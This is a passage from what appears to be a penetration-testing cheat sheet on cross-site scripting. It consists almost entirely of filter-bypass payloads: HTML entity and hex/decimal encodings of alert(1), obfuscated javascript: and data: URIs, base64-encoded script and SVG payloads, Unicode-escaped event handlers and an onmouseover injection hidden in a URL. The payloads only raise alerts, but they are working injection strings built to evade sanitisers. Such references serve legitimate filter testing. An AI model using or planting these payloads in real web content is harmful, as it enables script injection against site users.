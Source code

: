 ```javascript
//HTML entities
&apos;-alert(1)-&apos;
//HTML hex without zeros
&#x27-alert(1)-&#x27
//HTML hex with zeros
&#x00027-alert(1)-&#x00027
//HTML dec without zeros
&#39-alert(1)-&#39
//HTML dec with zeros
&#00039-alert(1)-&#00039

<a href="javascript:var a='&apos;-alert(1)-&apos;'">a</a>
<a href="&#106;avascript:alert(2)">a</a>
<a href="jav&#x61script:alert(3)">a</a>
```

**Note that URL encode will also work:**

```python
<a href="https://example.com/lol%22onmouseover=%22prompt(1);%20img.png">Click</a>
```

**Bypass inside event using Unicode encode**

```javascript
//For some reason you can use unicode to encode "alert" but not "(1)"
<img src onerror=\u0061\u006C\u0065\u0072\u0074(1) />
<img src onerror=\u{61}\u{6C}\u{65}\u{72}\u{74}(1) />
```

### Special Protocols Within the attribute

There you can use the protocols **`javascript:`** or **`data:`** in some places to **execute arbitrary JS code**. Some will require user interaction on some won't.

```javascript
javascript:alert(1)
JavaSCript:alert(1)
javascript:%61%6c%65%72%74%28%31%29 //URL encode
javascript&colon;alert(1)
javascript&#x003A;alert(1)
javascript&#58;alert(1)
&#x6a&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3aalert(1)
java        //Note the new line 
script:alert(1)

data:text/html,<script>alert(1)</script>
DaTa:text/html,<script>alert(1)</script>
data:text/html;charset=iso-8859-7,%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e
data:text/html;charset=UTF-8,<script>alert(1)</script>
data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=
data:text/html;charset=thing;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg
data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==
```

